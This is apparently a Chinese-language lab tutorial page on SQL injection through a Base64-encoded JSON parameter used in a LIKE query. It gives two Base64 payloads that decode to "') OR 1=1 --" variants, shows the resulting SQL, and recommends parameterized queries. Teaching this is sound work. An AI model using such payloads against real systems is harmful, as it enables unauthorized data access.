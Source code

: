 ```yaml
---
sidebar_position: 11
---
```


# 11.Base64 参数(JSON)嵌套字符串注入点模糊查询(括号边界)

Base64 参数(JSON)嵌套字符串注入点模糊查询是一种安全漏洞，通常出现在应用程序接受经过 Base64 编码的 JSON 格式参数，并将其作为模糊查询条件用于 SQL 语句中。攻击者可以通过注入特殊的 Base64 编码和 JSON 字符串来改变查询条件，绕过预期的过滤，导致数据泄露或非预期的查询结果。

### 示例代码：

假设应用程序接受经过 Base64 编码的 JSON 格式参数，并使用以下后端查询语句执行模糊查询：

```Plain
SELECT * FROM vulin_users WHERE (username LIKE '%a%') AND (age > 20);
```

### 攻击示例：

假设攻击者将`data`参数设置为以下 Base64 编码的 JSON 字符串：

```Plain
#payload-1
eyJuYW1lYjY0aiI6IicpIE9SIDE9MSAtLSJ9
#payload-2
eyJuYW1lYjY0aiI6IicgT1IgMT0xKSAtLSJ9
```

解码后的 JSON 字符串为：

```Plain
#payload-1
{"nameb64j":"') OR 1=1 --"}
#payload-2
{"nameb64j":"' OR 1=1) --"}
/*payload-1的SQL语句*/
select * from vulin_users where (username LIKE '%a') OR 1=1 --%') AND (age > 20);
/*payload-2的SQL语句*/
select * from vulin_users where (username LIKE '%a' OR 1=1) --%') AND (age > 20);
```

在这个恶意输入中，攻击者成功地在查询条件中添加了额外的条件 `OR 1=1`，并用注释符号`--`来注释掉后面的部分。这将导致查询忽略原本的条件 `(age > 20)`，返回所有用户数据，因为 `1=1` 总是为真。

### 防御措施：

为了防止 Base64 参数(JSON)嵌套字符串注入点模糊查询漏洞，应该始终使用参数化查询或预处理语句，不要直接拼接用户输入到 SQL 查询中，并对输入进行严格的过滤和验证。

### 靶场演示： 视频

<video
  src="/img/yaklab/sqli/11unsafe-like-b64j.mp4"
  loop={true}
  playsInline={true}
  controls={true}
  autoPlay={true}
  style={{ width: 890 }}
/>
